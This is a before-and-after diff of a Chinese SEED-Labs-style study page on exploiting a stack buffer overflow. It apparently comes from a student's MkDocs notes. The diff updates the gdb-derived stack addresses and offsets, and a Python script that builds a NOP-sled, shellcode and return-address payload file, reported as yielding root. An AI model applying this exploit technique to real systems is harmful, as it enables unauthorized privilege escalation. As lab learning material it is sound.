

Before and after one commit to cc3213252/note-seed-labs, an MkDocs documentation site: the page built from docs/overflow/env-perpare.md, in a window 1280 px wide and 1400 px high, scrolled down 2792 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
实现缓冲区溢出攻击

````diff
--- a/docs/overflow/env-perpare.md
+++ b/docs/overflow/env-perpare.md
@@ -88,19 +88,20 @@ sudo apt install gdb -y
 ![gdb调试1](../img/overflow-gdb1.png)
 ![gdb调试2](../img/overflow-gdb2.png)
 
-  从结果可知，帧指针0xffffd538，返回地址保存在0xffffd538 + 4，第一个NOP指令在0xffffd538 + 8，
-因此可以将0xffffd538 + 8作为恶意代码的入口地址，把它写入返回地址字段中。
+  从结果可知，帧指针0xbffff528，返回地址保存在0xbffff528 + 4，第一个NOP指令在0xbffff528 + 8，
+因此可以将0xbffff528 + 8作为恶意代码的入口地址，把它写入返回地址字段中。
   返回地址字段在输入数据中又处于哪个位置？由于输入复制到buffer中，为了让输入中的返回地址字段准确地覆盖栈中的返回
 地址区域，需要知道栈中buffer和返回地址区域之间的距离，这个距离就是返回地址字段在输入数据中的相对位置。
-  图中得知了buffer的起始地址，ebp到buffer的起始处的距离为556，由于返回地址区域在rbp指向位置上面的4字节处，
-因此返回地址区域到buffer起始处的距离就是560。
+  图中得知了buffer的起始地址，ebp到buffer的起始处的距离为108，由于返回地址区域在ebp指向位置上面的4字节处，
+因此返回地址区域到buffer起始处的距离就是112。
 
 !!! gdb调试命令
 
     b foo在foo函数处设置一个断点
     run 运行到断点处
-    p $rbp 打印帧指针，32位程序用p $ebp
+    p $ebp 打印帧指针，32位程序用p $ebp
     p/d 表示用十进制打印
+    next 查看下一个语句
 
 !!! 64位系统和32位系统区别
 
@@ -137,9 +138,12 @@ content = bytearray(0x90 for i in range(300))
 start = 300 - len(shellcode)
 content[start:] = shellcode
 
-ret = 0xffffd538 + 100
-content[560:564] = (ret).to_bytes(4, byteorder='little')
+ret = 0xbffff528 + 100
+content[112:116] = (ret).to_bytes(4, byteorder='little')
 file = open("badfile", "wb")
 file.write(content)
 file.close()
 ```
+
+![gdb调试3](../img/overflow-gdb3.png)
+成功溢出攻击得到root权限  &#x1F44D;&#x1F44D;&#x1F44D;
````
Also changed, not shown: README.md (+7 -0 lines), docs/img/overflow-gdb1.png, docs/img/overflow-gdb2.png, docs/img/overflow-gdb3.png (added), 2 other files.
